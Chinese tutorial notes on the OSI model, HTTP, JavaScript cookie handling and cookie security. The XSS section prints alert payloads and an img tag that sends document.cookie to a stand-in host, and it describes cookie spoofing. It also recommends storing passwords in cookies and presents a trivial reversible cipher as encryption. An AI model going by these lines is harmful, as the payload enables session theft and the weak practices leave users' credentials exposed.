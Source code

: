## 通信协议 

为了能够让不同设备通过网络进行互联互通、数据交互，必须规定大家都要遵守的标准“通信协议”。
当前ISO标准是7层网络模型：
（1）应用层：对应应用程序的通信服务的。示例：telnet，HTTP,FTP,WWW,NFS,SMTP等。
（2）表示层：定义数据格式及加密，例：FTP以二进制或ASCII格式传输。
（3）会话层：完成连续消息通知表示层，表示层看到的数据是连续的。示例：RPC，SQL等。
（4）传输层：不同应用的数据流的输入进行复用，数据包的重新排序功能。示例：TCP，UDP，SPX。
（5）网络层：定义逻辑地址，路由实现的方式。示例：IP,IPX等。
（6）数据链路层：如何将数据组合成数据块（帧）传送，如何处理传输差错。示例：ATM，FDDI等。
（7）物理层：有关传输介质的特性标准。连接头、针、针的使用、电流等。示例：Rj45，802.3等。
互联网使用TCP/IP协议：
	联网设备地址使用IP协议，如何打包数据，数据包编号使用TCP协议。
	TCP把应用程序的数据分割打成IP包，IP负责把包传给目标设备。

## HTTP 

http（超文本传输协议）是一个基于请求与响应的应用层协议。
	url请求资源的地址 http://host[":"port][abs_path]
	host 主机名，对应IP地址的一个点或一段；port 端口号 ；abs_path 主机上的资源路径
请求方式：
	get请求，将请求数据作为url一部分发送，不安全，传输数据量小，方便易用。
	post请求，传输数据量大，安全，一般做表单提交。
常见响应状态码：
	200 OK	 //客户端请求成功
	400 Bad Request //客户端请求有语法错误，不能被服务器所理解
	401 Unauthorized //请求未经授权，这个状态代码必须和WWW-Authenticate报头域一起使用
	403 Forbidden //服务器收到请求，但是拒绝提供服务
	404 Not Found //请求资源不存在，输入了错误的URL
	500 Internal Server Error //服务器发生不可预期的错误
	503 Server Unavailable //服务器当前不能处理客户端的请求，一段时间后可能恢复正常

# Cookie的概念

cookie 是存储于访问者的计算机中的变量。每当同一台计算机通过浏览器请求某个页面时，就会发送这个cookie。你可以使用 JavaScript 来创建和取回 cookie 的值。
	你可以把用户的登录名密码存储于cookie中，就可以实现自动登录。
	也可以用来保存购物车信息。
	Cookie的特点
	（1）cookie可能被禁用。
	（2）cookie是与浏览器相关的。不同浏览器所保存的cookie也是不能互相访问的。
	（3）cookie可能被用户删除。
	（4）cookie安全性不够高。如果要保存用户名密码等信息时，最好事先经过加密处理。
	（5）存储的数据量 4k 大小，cookie只支持存储string类型的数据。
	（6）简单易用。
	（7）信息存储于用户硬盘，因此可以作为全局变量。

## Cookie格式 

cookie就是一串字符串，格式就是键值对，分号隔开，三个属性可有可无。
	cookieName=cookieValue;**expires=GMTString**;**path=URLpath**;**domain=siteDomain**
	cookie名称----cookie值	---	失效日期	---	可访问url	---	可访问主机
	document.cookie=“cookieName=cookieValue”;//设置cookie
	没有指定失效日期的cookie在浏览器关闭后就消失。
	可访问url指定网站下能够访问cookie的路径。例：/shop
	可访问主机指定可访问cookie的主机名。例：www.163.com和mail.163.com指定为163.com
	注：失效日期由date.toGMTString（）方法取得。

## 写入/读取cookie 

写入7天后过期的cookie
		var date=new Date(); 
		date.setDate(date.getDate()+7); 
		document.cookie="userName=zhang; expires="+date.toGMTString();
		document.cookie="userPws=123456; expires="+date.toGMTString();
	读取上边写入的cookie，因为cookie每次是全部获取，所以需要自己写解析cookie的代码。
		var uname,upws;
		var cookiearr=document.cookie.split("; ");
		for(var i=0;i<cookiearr.length;i++){
			var coocieItem=cookiearr[i].split("=");
			if(coocieItem[0]=="userName"){
				uname=coocieItem [1];
			}
			if(coocieItem[0]=="userPws"){
				upws=coocieItem [1];
			}
		}

## Cookie的其他操作 

添加与覆盖：
		浏览器用cookie名称来区别cookie，添加不同名称cookie会一直续在前一个cookie后，同名的cookie会覆盖值。
	删除cookie：
		不能直接删除cookie，但是设置失效日期为过去，浏览器会删除cookie。
	中文及特殊字符支持：
		使用escape（）函数编码cookie值，读取时使用unescape（）函数解码。
	判断cookie是否存在：
		document.cookie.indexOf(NameOfCookie+“=”); //使用字符串函数indexOf
		例：document.cookie=“str=”+escape(“I love ajax”);相当于document.cookie="str=I%20love%20ajax";

## Json2的方法 

JSON2.js文件提供字符串转JSON和JSON转字符串的方法
	JSON.parse()【从一个字符串中解析出JSON对象】
	例子：
		var data='{"name":"goatling"}'
		JSON.parse(data)
	结果是：
		{name:"goatling“}
		JSON.stringify()【从一个JSON对象中解析出字符串】
		var data={name:'goatling'}
		JSON.stringify(data)
	结果是：
		'{"name":"goatling"}‘
	解析cookie很烦？用JSON结合cookie就会方便很多。

## cookie的安全策略 

XSS攻击：
		 跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

## cookie的安全策略（攻击代码示例） 

 html代码
	 
		<body>
			<span id="s"></span>	
			<textarea id="txtId" style="width:200px;height:200px" ></textarea>
			<input id="btn" type="button" value="测试" />
		</body>

​	 script代码
​		window.onload = function(){
​			document.getElementById("btn").onclick = function(){
​				 document.getElementById("s").innerHTML = document.getElementById("txtId").value;
​			}
​		}
​	 运行html页面，在文本域里输入：
​		`<a href="" onclick="javascript:{alert('dd');for(var i=0;i<10;i++){alert(i)}}" >百度</a>`

## cookie的安全策略 

XSS攻击：

		<script>alert(document.cookie)</script>

`<a href="" onclick="javascript:(function(){alert(444);})()">超级</a>`
这段代码能够发送当前cookie到www.xxx.com
	<img src='http://www.xxx.com?cookie='+document.cookie;/>
cookie欺骗：
	拿到cookie后，分析出用户名和密码，然后修改自己的cookie为分析出的用户名密码，访问网站成功登录。
如何防范：
	1，Html转码（防止“<”等特殊字符，防止注入js）
	2，敏感信息加密
	3，cookie和ip地址绑定（cookie检查ip地址，ip和cookie不符的不能登录，需要服务器端配合）

## cookie的安全策略 

//加密 abcd 经过compile() 后 e
	function compile(code) 
	{ 
	 var c=String.fromCharCode(code.charCodeAt(0)+code.length); 
	 for(var i=1;i<code.length;i++){ 
	 c+=String.fromCharCode(code.charCodeAt(i)+code.charCodeAt(i-1)); 
	 } 
 	return(escape(c)); 
	} 
	//解密
	function uncompile(code) 
	{ 
	 code=unescape(code); 
	 var c=String.fromCharCode(code.charCodeAt(0)-code.length); 
	 for(var i=1;i<code.length;i++){ 
	 c+=String.fromCharCode(code.charCodeAt(i)-c.charCodeAt(i-1)); 
	 } 
	 return c; 
	}

## Cookie的封装 

设置cookie
	function setCookie (key, value, t) {
		var oDate = new Date();
		oDate.setDate(oDate.getDate() + t);
		document.cookie = key + ‘=’ +escape(value) + '; expires=' + oDate.toGMTString()
	}
	获取cookie
	function getCookie (key) {
		var arr1 = document.cookie.split(';');
		for( var i=0;i<arr1.length; i++ ) {
			var arr2 = arr1[i].split('=');
			if( arr2[0] == key ){
				return unescape(arr2[1]);
			}
		}
	}